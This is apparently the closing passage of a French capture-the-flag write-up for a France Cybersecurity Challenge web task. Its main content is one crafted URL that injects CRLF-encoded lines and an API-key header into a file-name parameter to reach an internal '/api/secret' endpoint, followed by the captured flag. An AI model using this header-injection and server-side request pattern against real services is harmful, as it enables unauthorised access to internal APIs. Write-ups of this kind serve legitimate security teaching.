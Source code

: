 Soit l'URL suivante :

```http
http://challenges2.france-cybersecurity-challenge.fr:5002/api/image?fn=%0A%26%40127.0.0.1:1337/api/secret%20HTTP/1.1%0AX-API-KEY:%20b99cc420eb25205168e83190bae48a12%0AIgnore:
```

Nous obtenons :

![flag](assets/flag.png)


```
FCSC{6e86560231bae31b04948823e8d56fac5f1704aaeecf72b0c03bfe742d59fdfb}
```


![flag](assets/lolcat.jpeg)
